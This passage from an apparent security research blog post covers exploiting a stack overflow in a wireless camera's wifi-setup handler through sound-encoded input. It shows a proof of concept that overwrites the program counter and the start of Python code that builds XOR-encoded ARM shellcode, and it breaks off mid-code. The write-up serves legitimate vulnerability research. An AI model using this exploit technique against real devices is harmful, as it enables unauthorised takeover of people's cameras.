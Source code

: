 So with these hooks in place, we can generate sounds to exploit the bugs!

# Bug 1 Exploit

For some reason gdb didn't like showing that this bug caused a segfault and the remote connection dies, but setting a breakpoint at the end of the **save_wifi_info2tmp** function shows that *r11* and *pc* will be popped from the stack and will both be *0x41414141*.

![bug1_poc.png](/assets/images/analysing_a_wireless_network_camera_part_5/bug1_poc.png)

We can also pull the generated wav file with the following command: **adb pull /storage/emulated/0/Android/data/com.yunyi.smartcamera/cache/pcm/sample.wav**

Now that we have got a PoC for the bug going, its time to see if we can exploit the bug to make the camera do something!

When I was testing out larger exploits, the **libpcmjni.so** library refused to generate a wav when the length of the input is greater than 128 bytes - so we are very limited on size. This means I'll have to use the overpowered OOB read from the last blog to work out where our data will be placed on the stack. As the stack is executable, we can jump to this and execute a crafted shellcode.

Here is the code I wrote to generate a payload that decodes a few instructions after the decoder and executes them (after sleeping to allow the caches to flush):

```
-python
def generate_light_on_shellcode_payload(payload_start, libc_base, target_length):
	key = 0xfc
	
	# first build payload so that we can give the decoder the correct lengths
	payload_asm = f"""
		ldr r1, =#0x3bfe8
		mov r0, #0x1
		blx r1
		ldr r1, =#{hex(libc_base+0x49c74)}
		mov r0, #0x10
		blx r1
	"""

	payload_assembled = asm(payload_asm, arch='arm', endian="little")

	info("Decoded payload:")
	info(get_hexdump(payload_assembled))

	payload_assembled_bytes = xor_bytes(bytes.fromhex(payload_assembled.hex()), key)

	# get decoder first
	decoder_asm = f"""
	@ Inputs:
	@ r1: Length of the input array
	@ r3: Address of sleep in libc
```